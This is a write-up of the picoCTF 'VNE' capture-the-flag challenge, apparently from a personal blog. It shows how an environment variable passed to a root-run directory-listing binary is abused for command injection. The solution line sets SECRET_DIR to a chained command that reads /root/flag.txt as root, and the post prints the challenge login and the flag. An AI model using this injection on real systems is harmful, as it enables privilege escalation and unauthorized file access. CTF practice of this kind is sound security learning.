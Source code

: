```yaml
---
layout: post
title:  "VNE"
subtitle: 2024-08-21
date:   2024-08-21
description: Abusing environment variables
tags: ["Binary", "Environment", "Injection", "Easy"]
category: [CTF,picoCTF]
---
```


# Challenge Info
description: `We’ve got a binary that can list directories as root, try it out !! ssh to saturn.picoctf.net:59803, and run the binary named “bin” once connected. Login as ctf-player with the password, af86add3`

author: Junias Bonou

![vne](/assets/img/VNE/vne.png)

## Attempts
Upon connecting, I ran `pwd` and `ls` to see what we have:

```
ctf-player@pico-chall$ pwd
/home/ctf-player
ctf-player@pico-chall$ ls
bin
```
I tried navigating around with `cd`, until I finally found something interesting:
```
ctf-player@pico-chall$ cd ..
ctf-player@pico-chall$ ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
ctf-player@pico-chall$ cd challenge
-bash: cd: challenge: Permission denied
```
A challenge folder, which the flag is probably inside of. Unfortunately, we can't navigate into it. Next, I tried seeing if sudo was available, to no success.

```
ctf-player@pico-chall$ sudo
-bash: sudo: command not found
ctf-player@pico-chall$
```

Finally, I want back to ctf-player to try and execute the binary we're given. Unfortunately, upon trying to execute it, I'm met with a problem:

```
ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$
```
Okay, so lets try setting the `SECRET_DIR` environment variable:

```
ctf-player@pico-chall$ export SECRET_DIR=/
ctf-player@pico-chall$ ./bin
Listing the content of / as root:
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
ctf-player@pico-chall$
```

## Understanding the Challenge
The binary called "bin" that we've been executing, reads directories with root permissions, so when we set `SECRET_DIR=/`, it read everything in / as root. Using this information, we can use the environment variable to poke around different directories, starting with `/challenge`:

```
ctf-player@pico-chall$ export SECRET_DIR=/challenge
ctf-player@pico-chall$ ./bin
Listing the content of /challenge as root:
config-box.py  metadata.json  profile
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-call$ ./bin
Listing the contents of /root as root:
flag.txt
ctf-player@pico-chall$
```

So, while `/challenge` didn't yield any success, `/root` shows us where the flag is, and that it's in a `.txt`. Which is great and all, but how can we actually read the contents of it? As seen previously, `bin` only reads directories, so it doesn't serve any use... unless we can chain commands...

## Solution

```
ctf-player@pico-chall$ export SECRET_DIR="ls /root | cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of ls /root | cat /root/flag.txt as root:
picoCTF{Power_t0_man!pul4t3_3nv_1670f174}ls: cannot access 'ls': No such file or directory
ctf-player@pico-chall$
```

flag: `picoCTF{Power_t0_man!pul4t3_3nv_1670f174}`
